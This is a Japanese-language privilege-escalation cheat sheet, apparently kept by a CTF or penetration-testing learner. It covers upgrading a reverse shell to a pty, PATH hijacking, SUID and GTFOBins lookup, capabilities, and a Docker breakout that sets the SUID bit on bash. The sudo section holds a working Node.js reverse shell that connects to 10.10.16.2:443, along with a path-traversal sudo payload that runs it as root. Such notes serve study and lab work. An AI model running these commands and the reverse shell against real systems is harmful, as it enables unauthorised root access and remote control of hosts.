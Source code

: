 ## ## Reverse shellが完了した後
ptyを使用したshell
```
- 方法1
# python -c "import pty;pty.spawn('/bin/bash')"

方法2
# script /
```
https://hidepatidar.medium.com/spawning-interactive-reverse-shell-7732686ea775

---
## ## 1. PATH
- シェルで使用するコマンドは、絶対パスで指定をしない限り、
  PATH変数で定義されるディレクトリを見に行く。
  
- ユーザが書き込み権限を持っているフォルダーがパスにある場合アプリケーションを
  乗っ取ってスクリプトを実行する可能性がある。
  
  ▼手順
   - この手法は、システムの既存の構成に依存しているため以下の点を確認する必要がある。
     1.  $PATHの下にあるフォルダー
     2.  現在のユーザは、これらのフォルダのいずれかに対する書き込み権限を持っているか？
     3.  $PATHを変更できるか。
     4.  この脆弱性の影響を受ける、スクリプト/アプリケーションはあるか？
     
	書き込み可能なフォルダーを検索する方法。
	```
	# find / -writable 2>/dev/null | cut -d "
	```
    ここでecho $PATHとfindの結果を比較しPATHが通っているディレクトリに書き込み権限が
	ないことがわかったら、/tmpなどの書き込みができるフォルダーのPATHを通してあげる必要がある。
    ```
	# export PATH=/tmp:$PATH
	```

---
## ## 2. SUID
   1.SUIDまたはSGIDビットが「s」で設定されているコマンドを特定する。
	```
	# find / -type f -perm -04000 -ls 2>/dev/null
	```
   2. 上記で見つかったものを以下のサイトで調べる。
	https://gtfobins.github.io/#
   3. 上記のサイトで有効な手段が見つからなかった場合。
	  例えば、nanoユーザにrootとして実行できる権限が付与されている場合、その権限を使用して、rootが所有しているファイルでも関係なく読み取るか書き換えることが可能になる。
      
[自作CheetCheat](https://hackmd.io/w2nCuiJhSzyWfmBpeeXyJw)

---
## ## 3.Capabilities
1.以下のコマンドを使用して有効なケーパビリティを確認できる。
  ```
  # getcap
  ```
2.上記のコマンドのみだとめちゃくちゃエラー出力が出るので以下を実施。
  ```
  # getcap -r / 2>/dev/null
  ```

---
## ## Docker
   前提:コンテナ上でRoot権限を取得していること
   1. ホスト側で以下のコマンドを入力してDockerコンテナとホスト間で共有してあるディスクを確認する。
      ```
      # df -h
      ```
      
      以下が返ってくる。
```
Filesystem      Size  Used Avail Use% Mounted on
udev            1.9G     0  1.9G   0% /dev
tmpfs           394M  1.3M  392M   1% /run
/dev/sda2       6.8G  4.3G  2.4G  64% /
tmpfs           2.0G     0  2.0G   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
overlay         6.8G  4.3G  2.4G  64% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm              64M     0   64M   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay         6.8G  4.3G  2.4G  64% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm              64M     0   64M   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
tmpfs           394M     0  394M   0% /run/user/1000
```

   2. DockerContainerにて以下のコマンドを実行
      ```sh
      cd /bin/
      chmod u+s ./bash
      ```
      
   3. マシンのホスト側にて以下を実施
      ```sh
      bash -p
      ```
  - 参考
    - Hacktricks
      https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation

---

## ## SUDO
   - sudo -l
     /usr/local/scripts/に書き込み権限がないときは/usr/local/scripts/../../../で書き込みができるディレクトリまでさかのぼり実行すればできる。
     ```
     (ALL) /usr/bin/node /usr/local/scripts/*.js
     ```
     
     - 以下のようなコードで実行可能
       ```
       # cat /home/angoose/reverseshell.js 
       (function(){
        var net = require("net"),
          cp = require("child_process"),
          sh = cp.spawn("/bin/bash", []);
        var client = new net.Socket();
        client.connect(443, "10.10.16.2", function(){
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
        });
        return /a/; // Prevents the Node.js application from crashing
        })();
        ```
        - payload
          ```
	          # sudo /usr/bin/node /usr/local/scripts/../../../..//home/angoose/reverseshell.js
          ```
        